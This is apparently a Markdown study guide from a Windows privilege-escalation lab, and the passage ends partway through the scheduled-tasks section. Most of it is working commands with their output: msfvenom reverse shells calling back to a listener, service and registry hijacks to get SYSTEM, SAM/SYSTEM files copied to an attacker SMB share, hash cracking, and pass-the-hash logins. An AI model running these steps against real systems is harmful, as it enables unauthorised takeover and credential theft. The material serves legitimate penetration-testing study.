









# Windows Privesc

## General concepts

### Users and groups

User accounts can belong to multiple groups, and groups can have multiple users.

> There are also pseudo groups such as "**Authenticated Users**"

> The "**SYSTEM**" account is a default service account which has the highest privileges of any local account in Windows.

> The "**Administrator**" account is created by default at install. Depending on the version of Windows, other accounts such as "**Guest**" can be created by default as well.

> Adding a user to the Administrator group: `net localgroup administrators <username> /add`


### Resources and access control

In Windows, there are multiple types of resource (also known as **objects**):

- Files / Directories
- Registry Entries
- Services

Whether a user and/or group has permission to perform a certain action on a resource depends on that resource's **Access Control List** (ACL).

Each ACL is made up of zero or more **access control entries** (ACEs).

Each ACE defines the **relationship between a principal** (e.g. a user, group) **and a certain access right** (Full control, read & execute, write, etc.).


### Uploading a reverse shell on Windows target machine

#### From Kali

```bash
# Generate a reverse shell executable
> msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=1234 -f exe -o reverse-shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: reverse-shell.exe
# Run a SMB server
> python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .
# On another terminal, start a listener
> nc -lnvp 1234
```

#### From Windows target

```cmd
C:\Users\user> copy \\10.11.35.147\kali\reverse-shell.exe C:\PrivEsc\reverse-shell.exe
        1 file(s) copied.
```
___

## Tools

These tools provide information that can help for further investigation and privilege escalation:

- [`winPEAS`](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)
    + To enable colors add the following registry key:

    ```cmd
    > reg add HKCU\Console /v VirtualTerminalLevel/t REG_DWORD /d 1
    ```

    + Then open a new command prompt:

    ```cmd
    > .\winPEASany.exe -h
    > .\winPEASany.exe quiet cmd fast
    > .\winPEASany.exe quiet cmd systeminfo
    ```

- [`Seatbelt`](https://github.com/GhostPack/Seatbelt) | [exe](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/Seatbelt.exe)

    ```cmd
    > .\Seatbelt.exe all
    ```

Looking for specific misconfigurations:

- [`PowerUp`](https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1) (based on **Powershell**)

    ```powershell
    PS>. .\PowerUp.ps1    
    PS> Invoke-AllChecks
    ```

    > `AbuseFunction`(s) will be printed.

- [`SharpUp`](https://github.com/GhostPack/SharpUp) (Compiled **C#** version of `PowerUp`) | [exe](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/blob/master/SharpUp.exe)

    ```cmd
    > .\SharpUp.exe
    ```

Checking user access control rights:

- `accesschk.exe`
    + Downside: the nore recent versions spawn a GUI "accept EULA" popup window (non visible when we only have a shell).

- <https://docs.microsoft.com/en-us/sysinternals/downloads/psexec>

___

## Kernel exploits

Kernel (core of an operating system) => layer between software and actual hardware.

Steps:

1. Enumerate Windows version / patch level (via `systeminfo` for instance)
2. Find matching exploits (exploitDB, github, google, etc.)
3. Compile & run

### Tools

There are a few tools available to help find kernel exploits:

- [wesng](https://github.com/bitsadmin/wesng)
- [Sherlock](https://github.com/rasta-mouse/Sherlock)
- [Watson](https://github.com/rasta-mouse/Watson#watson)
- [Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)

Some precompiled kernel exploits: <https://github.com/SecWiki/windows-kernel-exploits>

___

## Service Exploits

Services are simply programs that run in the background, accepting input or performing regular tasks.

Some common commands:

- starting/stopping a service:

    ```cmd
    > net start/stop <name>
    ```

- querying the configuration of a service:

    ```cmd
    > sc.exe qc <name>
    ```

- querying the current status of a service:

    ```cmd
    > sc.exe query <name>
    ```

- modifying a configuration option of a service:

    ```cmd
    > sc.exe config <name> <option>= <value>
    ```

### 1. Insecure service permissions

As mentioned previously, each service has an ACL that defines permissions.

- innocuous permissions: `SERVICE_QUERY_CONFIG`, `SERVICE_QUERY_STATUS` and so on.

- useful permissions: `SERVICE_STOP`, `SERVICE_START`.

- dangerous permissions: `SERVICE_CHANGE_CONFIG`, `SERVICE_ALL_ACCESS`

> **Potential Rabbit Hole:** being able to change a service configuration without the ability to start/stop the service cannot lead to privesc!

#### Example: `daclservice.exe`

By running `.\winPEAS.exe quiet serviceinfo`, we can see that we can modify the service `daclservice.exe`:





We can verify this with **accesschk.exe**:

```cmd
C:\PrivEsc>.\accesschk.exe /accepteula -uwcqv user daclsvc 

RW daclsvc
        SERVICE_QUERY_STATUS
        SERVICE_QUERY_CONFIG
        SERVICE_CHANGE_CONFIG
        SERVICE_INTERROGATE
        SERVICE_ENUMERATE_DEPENDENTS
        SERVICE_START
        SERVICE_STOP
        READ_CONTROL
```

We can change config, start and stop the service.

Let's get the config and the current status of the service:

```
C:\PrivEsc>sc qc daclsvc
sc qc daclsvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: daclsvc
        TYPE               : 10  WIN32_OWN_PROCESS 
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "C:\Program Files\DACL Service\daclservice.exe"
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : DACL Service
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem

C:\PrivEsc>sc query daclsvc
sc query daclsvc

SERVICE_NAME: daclsvc 
        TYPE               : 10  WIN32_OWN_PROCESS  
        STATE              : 1  STOPPED 
        WIN32_EXIT_CODE    : 1077  (0x435)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0

```

The service is currently stopped, it has to be started manually (`DEMAND_START`) and it should run with the permissions of the system user (`LocalSystem`).

In order to privesc, we can change the `BINARY_PATH_NAME` to our reverse shell payload and then start the service:

```cmd
C:\PrivEsc>sc config daclsvc binpath= "\"C:\PrivEsc\reverse-shell.exe\""

[SC] ChangeServiceConfig SUCCESS
C:\PrivEsc>net start daclsvc
net start daclsvc
The service is not responding to the control function.

More help is available by typing NET HELPMSG 2186.
```

Start a(nother) listener on your Kali machine and BOUM we're SYSTEM:

```console
root@kali:~/thm/windows10privesc# nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.11.35.147] from (UNKNOWN) [10.10.61.59] 49940
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

### 2. Unquoted Service Path 

As you may noticed, executables can be run without their extensions _(e.g. "sc.exe" can be run by just typing "sc")._

Paths with spaces can be interpreted as executables with arguments separated by spaces as well as path of a single file with directories that contain spaces in their names.

Example: `C:\Program Files\Some Directory\Program.exe`

This is called **unquoted path**.

Windows resolves this ambiguity by checking each of the possibilities in turn.

If we can write to a location windows checks before the actual executable, we can trick the service into executing our program instead.

#### Practical example



Regarding the service above, Windows will look for `C:\Program.exe`, `C:\Program Files\Unquoted.exe` and `C:\Program Files\Unquoted Path Service\Common.exe` because of this path `C:\Program Files\Unquoted Path Service\Common Files\`.

If we can write one of these files, we can execute a malicious program instead of `unquotedpathservice.exe`  

1. First let's verify if we have the permission to start the service:

```powershell
C:\PrivEsc>.\accesschk.exe /accepteula -ucqv user unquotedsvc 

R  unquotedsvc
        SERVICE_QUERY_STATUS
        SERVICE_QUERY_CONFIG
        SERVICE_INTERROGATE
        SERVICE_ENUMERATE_DEPENDENTS
        SERVICE_START
        SERVICE_STOP
        READ_CONTROL
```

2. Then, let's check for write permissions on each directory of the given path `C:\Program Files\Unquoted Path Service\Common Files\`:

```cmd
C:\PrivEsc>.\accesschk.exe /accepteula -uwdq "C:"

C:\PrivEsc
  Medium Mandatory Level (Default) [No-Write-Up]
  RW NT AUTHORITY\SYSTEM
  RW BUILTIN\Administrators
  RW BUILTIN\Users


C:\PrivEsc>.\accesschk.exe /accepteula -uwdq "C:\Program Files\"
.\accesschk.exe /accepteula -uwdq "C:\Program Files\"
C:\Program Files
  Medium Mandatory Level (Default) [No-Write-Up]
  RW NT SERVICE\TrustedInstaller
  RW NT AUTHORITY\SYSTEM
  RW BUILTIN\Administrators


C:\PrivEsc>.\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"            
.\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\"                                                                                                                 
C:\Program Files\Unquoted Path Service                                                                                                                                                      
  Medium Mandatory Level (Default) [No-Write-Up]                                                                                                                                            
  RW BUILTIN\Users
  RW NT SERVICE\TrustedInstaller
  RW NT AUTHORITY\SYSTEM
  RW BUILTIN\Administrators
```

3. We can write a malicious program called "Common.exe" in `"C:\Program Files\Unquoted Path Service\"` and then start the service:

```cmd
C:\PrivEsc>copy reverse-shell.exe "C:\Program Files\Unquoted Path Service\Common.exe"
copy reverse-shell.exe "C:\Program Files\Unquoted Path Service\Common.exe"
        1 file(s) copied.

C:\PrivEsc>net start unquotedsvc
```

### 3. Weak Registry Permissions

In case, modifying the service config is not possible, then we have to check if we can modify any service registry:



Looks like we can! 

Now we can confirm that this service has a weak registry entry using either **Powershell** or **accesschk.exe**:

```powershell
C:\PrivEsc>powershell -exec bypass
powershell -exec bypass
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\PrivEsc> Get-Acl HKLM:\System\CurrentControlSet\Services\regsvc | Format-List
Get-Acl HKLM:\System\CurrentControlSet\Services\regsvc | Format-List


Path   : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\regsvc
Owner  : BUILTIN\Administrators
Group  : NT AUTHORITY\SYSTEM
Access : Everyone Allow  ReadKey
         NT AUTHORITY\INTERACTIVE Allow  FullControl
         NT AUTHORITY\SYSTEM Allow  FullControl
         BUILTIN\Administrators Allow  FullControl
Audit  : 
Sddl   : O:BAG:SYD:P(A;CI;KR;;;WD)(A;CI;KA;;;IU)(A;CI;KA;;;SY)(A;CI;KA;;;BA)
```

```cmd
C:\PrivEsc>.\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc                                     
HKLM\System\CurrentControlSet\Services\regsvc
  Medium Mandatory Level (Default) [No-Write-Up]
  RW NT AUTHORITY\SYSTEM
        KEY_ALL_ACCESS
  RW BUILTIN\Administrators
        KEY_ALL_ACCESS
  RW NT AUTHORITY\INTERACTIVE
        KEY_ALL_ACCESS

C:\PrivEsc>sc qc regsvc     
sc qc regsvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: regsvc
        TYPE               : 10  WIN32_OWN_PROCESS 
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "C:\Program Files\Insecure Registry Service\insecureregistryservice.exe"
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : Insecure Registry Service
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem
```

> **Note**: the `AUTHORITY\INTERACTIVE` group has full control over the registry entry. This is a pseudo group comprised of all users who can log onto the system locally, which includes our user.

We can see that we have the correct permissions and that the service is executed as **SYSTEM**.

Now let's query th service registry entry and check the current values:

```cmd
C:\PrivEsc>reg query HKLM\System\CurrentControlSet\Services\regsvc

HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\regsvc
    Type    REG_DWORD    0x10
    Start    REG_DWORD    0x3
    ErrorControl    REG_DWORD    0x1
    ImagePath    REG_EXPAND_SZ    "C:\Program Files\Insecure Registry Service\insecureregistryservice.exe"
    DisplayName    REG_SZ    Insecure Registry Service
    ObjectName    REG_SZ    LocalSystem

HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\regsvc\Security
```

We can overwrite the ImagePath registry value to point to a malicious program:

```cmd
C:\PrivEsc>reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse-shell.exe /f
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse-shell.exe /f
The operation completed successfully.

C:\PrivEsc>net start regsvc
net start regsvc
```

### 4. Insecure Service Executables

Obviously, if the service executable itself is modifiable by us, we can replace its content by a malicious program. 



Using **accesschk.exe**, we can notice that the service binary (`BINARY_PATH_NAME`) file is writable by everyone (RW Everyone - FILE_ALL_ACCESS):

```cmd
C:\Users\user>C:\PrivEsc\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"

  Medium Mandatory Level (Default) [No-Write-Up]
  RW Everyone
        FILE_ALL_ACCESS
  RW NT AUTHORITY\SYSTEM
        FILE_ALL_ACCESS
  RW BUILTIN\Administrators
        FILE_ALL_ACCESS
  RW WIN-QBA94KB3IOF\Administrator
        FILE_ALL_ACCESS
  RW BUILTIN\Users
        FILE_ALL_ACCESS
```

Let's check that we can start/stop the service:

```cmd
C:\Users\user>C:\PrivEsc\accesschk.exe /accepteula -uvqc user filepermsvc

R  filepermsvc
        SERVICE_QUERY_STATUS
        SERVICE_QUERY_CONFIG
        SERVICE_INTERROGATE
        SERVICE_ENUMERATE_DEPENDENTS
        SERVICE_START
        SERVICE_STOP
        READ_CONTROL
```

Now we can replace the service binary by our reverse shell executable but first let's create a backup of it:

```cmd
C:\Users\user>copy "C:\Program Files\File Permissions Service\filepermservice.exe" C:\Temp
        1 file(s) copied.

C:\Users\user>copy C:\PrivEsc\reverse-shell.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y
        1 file(s) copied.

C:\Users\user>net start filepermsvc
net start filepermsvc
```

### 5. DLL Hijacking

- Does the DLL path writable by our user?

___

## Registry

### Autoruns

**Autoruns** are programs that run at startup.

We can query the registry for AutoRun executables with this command:

```cmd
C:\PrivEsc>reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
    SecurityHealth    REG_EXPAND_SZ    %windir%\system32\SecurityHealthSystray.exe
    My Program    REG_SZ    "C:\Program Files\Autorun Program\program.exe"
```

Or using **winPEAS**:

```cmd
C:\PrivEsc>.\winPEASany.exe quiet applicationsinfo
```



Using **accesschk.exe**, we can check permissions on that executable:

```cmd
C:\PrivEsc\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"

AccessChk v4.02 - Check access of files, keys, objects, processes or services
Copyright (C) 2006-2007 Mark Russinovich
Sysinternals - www.sysinternals.com

C:\Program Files\Autorun Program\program.exe
  Medium Mandatory Level (Default) [No-Write-Up]
  RW Everyone
        FILE_ALL_ACCESS
  RW NT AUTHORITY\SYSTEM
        FILE_ALL_ACCESS
  RW BUILTIN\Administrators
        FILE_ALL_ACCESS
  RW WIN-QBA94KB3IOF\Administrator
        FILE_ALL_ACCESS
  RW BUILTIN\Users
        FILE_ALL_ACCESS
```

We can overwrite this program by doing this (then we have to restart the machine):

```
copy C:\PrivEsc\reverse.exe "C:\Program Files\Autorun Program\program.exe" /Y
```

### AlwaysInstallElevated 

MSI files are package files used to install applications.

They can be run with elevated (admin) privileges if the `AlwaysInstallElevated` value is set to 1 in:
- `HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer` (**HKCU** => **C**urrent **U**ser)
- `HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer` (**HKLM** => **L**ocal **M**achine)

We can check these permissions by doing these commands:

```cmd
C:\PrivEsc>reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1

C:\PrivEsc>reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
```

This time, we have to generate a reverse shell with the msi format:

```console
root@kali:~/thm/windows10privesc# msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.11.35.147 LPORT=1234 -f msi -o reverse.msi
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of msi file: 159744 bytes
Saved as: reverse.msi
```

Then we can execute this MSI file:

```cmd
msiexec /quiet /qn /i C:\PrivEsc\reverse.msi
```

___

## Passwords

### Registry 

Looking for or keys and values that contain "password":

```cmd
C:\PrivEsc> reg query HKLM /f password /t REG_SZ /s
C:\PrivEsc> reg query HKCU /f password /t REG_SZ /s
```

> It generates a lot of results, so often it is more fruitful to look in known locations.

```cmd
C:\PrivEsc> winPEASany.exe quiet filesinfo userinfo
```

#### Practical example





We can verify these manually by querying the registry itself.

```cmd
C:\PrivEsc>reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"

HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\winlogon
    AutoRestartShell    REG_DWORD    0x1
    Background    REG_SZ    0 0 0
    CachedLogonsCount    REG_SZ    10
    DebugServerCommand    REG_SZ    no
    DefaultDomainName    REG_SZ    
    DefaultUserName    REG_SZ    admin
    DisableBackButton    REG_DWORD    0x1
    EnableSIHostIntegration    REG_DWORD    0x1
    ForceUnlockLogon    REG_DWORD    0x0
    LegalNoticeCaption    REG_SZ    
    LegalNoticeText    REG_SZ    
    PasswordExpiryWarning    REG_DWORD    0x5
    PowerdownAfterShutdown    REG_SZ    0
    PreCreateKnownFolders    REG_SZ    {A520A1A4-1780-4FF6-BD18-167343C5AF16}
    ReportBootOk    REG_SZ    1
    Shell    REG_SZ    explorer.exe
    ShellCritical    REG_DWORD    0x0
    ShellInfrastructure    REG_SZ    sihost.exe
    SiHostCritical    REG_DWORD    0x0
    SiHostReadyTimeOut    REG_DWORD    0x0
    SiHostRestartCountLimit    REG_DWORD    0x0
    SiHostRestartTimeGap    REG_DWORD    0x0
    Userinit    REG_SZ    C:\Windows\system32\userinit.exe,
    VMApplet    REG_SZ    SystemPropertiesPerformance.exe /pagefile
    WinStationsDisabled    REG_SZ    0
    scremoveoption    REG_SZ    0
    DisableCAD    REG_DWORD    0x1
    LastLogOffEndTimePerfCounter    REG_QWORD    0x236f172d
    ShutdownFlags    REG_DWORD    0x7
    AutoAdminLogon    REG_SZ    0
    AutoLogonSID    REG_SZ    S-1-5-21-3025105784-3259396213-1915610826-1001
    LastUsedUsername    REG_SZ    admin

HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\winlogon\AlternateShells
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\winlogon\GPExtensions
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\winlogon\UserDefaults
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\winlogon\AutoLogonChecked
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\winlogon\VolatileUserMgrKey
```

Now we can log in using either `evil-winrm` or `winexe`:

```console
root@kali:~# evil-winrm -i 10.10.0.201 -u admin -p password123 -n

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\admin\Documents> whoami
win-qba94kb3iof\admin
*Evil-WinRM* PS C:\Users\admin\Documents> exit

Info: Exiting with code 0
root@kali:~# winexe -U 'admin%password123' //10.10.0.201 cmd.exe
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
win-qba94kb3iof\admin

C:\Windows\system32>exit
exit
```

### Saved Creds 

The `runas` command allows users to run commands as other users. This require the knowledge of their passwords.

Credentials can also be saved to the system with the **Credential manager**

We can list them with the following command:

```cmd
C:\PrivEsc>cmdkey /list

Currently stored credentials:

    Target: WindowsLive:target=virtualapp/didlogical
    Type: Generic 
    User: 02nfpgrklkitqatu
    Local machine persistence
    
    Target: Domain:interactive=WIN-QBA94KB3IOF\admin
    Type: Domain Password
    User: WIN-QBA94KB3IOF\admin
```

We can also list them using **winPEAS**:

```cmd
C:\PrivEsc>.\winPEASany.exe cmd windowscreds
```

Then we can use them with the `runas` command:

```cmd
runas /savecred /user:admin C:\PrivEsc\reverse.exe
```

### Plaintext passwords in config files

- In th current directory, recursively search for files either with "pass" in their names or ending in ".config": 

```cmd
dir/s *pass* == *.config
```

- In th current directory, recursively search for file containing the word "password" or edning in ".xml", ".txt" or ".ini": 

```cmd
findstr /si password *.xml *.ini *.txt
```

- Alternatively, we can use **winPEAS**:

```cmd
C:PrivEsc> .\winPEASany.exe quiet cmd searchfast filesinfo
[+] Unnattend Files()
    C:\Windows\Panther\Unattend.xml
<Password>                    <Value>cGFzc3dvcmQxMjM=</Value>                    <PlainText>false</PlainText>                </Password>
```

> Here the password is base64 encoded.

### Security Account Manager (SAM) 

Password hashes are stored in the **Security Account Manager** (SAM)

The hashes are encrypted with a key stored in a file called **SYSTEM**.

Both are usually located in `C:\Windows\System32\config` but they're locked when Windows is running.

Backups can exist in multiple locations:
- `C:\Windows\Repair`
- `C:\Windows\System32\config\RegBack`

#### Practical example

Once again with **winPEAS** we can identify the location of these backups:

```cmd
C:PrivEsc> .\winPEASany.exe quiet cmd searchfast filesinfo
```



Then, we can copy them:

```cmd
copy C:\Windows\Repair\SAM \\10.10.10.10\kali\
copy C:\Windows\Repair\SYSTEM \\10.10.10.10\kali\
```

Usually, tools like `samdump2` or `samdump` can be used to dump the hashes from these files.

```console
root@kali:~/thm/windows10privesc# samdump2 SYSTEM SAM 
*disabled* Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::                                                            
*disabled* Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::                                                                    
*disabled* :503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::                                                                         
*disabled* :504:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::                                                                         
:1000:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::                                                                                   
admin:1001:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: 
```

> All hashes are the same, there is definitely an error.

We can also use the `creddump7` suite:

```console
root@kali:~/thm/windows10privesc# git clone https://github.com/Tib3rius/creddump7
root@kali:~/thm/windows10privesc# python3 creddump7/pwdump.py SYSTEM SAM
Administrator:500:aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:6ebaa6d5e6e601996eefe4b6048834c2:::
user:1000:aad3b435b51404eeaad3b435b51404ee:91ef1073f6ae95f5ea6ace91c09a963a:::
admin:1001:aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da::
```

> Format: `<USERNAME>:<UID>:<LM_HASH_OF_EMPTY_STRING>(deprecated):<NTLM_HASH>::`

Then we can crack them using `hashcat`:

```
root@kali:~/thm/windows10privesc# cat > hashes.txt
Administrator:500:aad3b435b51404eeaad3b435b51404ee:fc525c9683e8fe067095ba2ddc971889:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:6ebaa6d5e6e601996eefe4b6048834c2:::
user:1000:aad3b435b51404eeaad3b435b51404ee:91ef1073f6ae95f5ea6ace91c09a963a:::
admin:1001:aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da:::
^C
root@kali:~/thm/windows10privesc# hashcat -m 1000 hashes.txt /usr/share/wordlists/rockyou.txt
hashcat (v6.1.1) starting..
...
a9fdfa038c4b75ebc76dc855dd74f0da:password123     
31d6cfe0d16ae931b73c59d7e0c089c0:                
91ef1073f6ae95f5ea6ace91c09a963a:password321     
fc525c9683e8fe067095ba2ddc971889:Passw0rd! 
...
```

> Hashes that begin with `"31d6"` are hashes of empty string which means that the account is either disabled or it has no password.

### Passing the Hash 

Instead of cracking hashes, we can also pass them directly:

```console
root@kali:~/thm/windows10privesc# evil-winrm -i 10.10.127.237 -u admin -H "a9fdfa038c4b75ebc76dc855dd74f0da" -n

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\admin\Documents> whoami
win-qba94kb3iof\admin
```

___

## Scheduled Tasks

List all scheduled tasks your user can see:

```cmd
> schtasks /query /fo LIST /v
```

In PowerShell:

```powershell
PS> Get-ScheduledTask| where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName,TaskPath,State
```

### Practical example

```cmd
C:\Users\user>type C:\DevTools\CleanUp.ps1
type C:\DevTools\CleanUp.ps1
# This script will clean up all your old dev logs every minute.
# To avoid permissions issues, run as SYSTEM (should probably fix this later)

Remove-Item C:\DevTools\*.log
```

According to the comments, this script is running every minute as system, likely via a scheduled task.

Let's use **accesschck.exe** to check our permissions on this script:

```cmd
C:\Users\user>C:\PrivEsc\accesschk.exe /accepteula -quvw user C:\DevTools\CleanUp.ps1
C:\PrivEsc\accesschk.exe /accepteula -quvw user C:\DevTools\CleanUp.ps1
RW C:\DevTools\CleanUp.ps1
        FILE_ADD_FILE
        FILE_ADD_SUBDIRECTORY
        FILE_APPEND_DATA
        FILE_EXECUTE
        FILE_LIST_DIRECTORY
        FILE_READ_ATTRIBUTES
        FILE_READ_DATA
        FILE_READ_EA
        FILE_TRAVERSE
        FILE_WRITE_ATTRIBUTES
        FILE_WRITE_DATA
        FILE_WRITE_EA
        DELETE
        SYNCHRONIZE
        READ_CONTROL
```

Now we can start a Listener and append our reverse shell to this script content:

```cmd
C:\Users\user>copy C:\DevTools\CleanUp.ps1 C:\Temp
copy C:\DevTools\CleanUp.ps1 C:\Temp
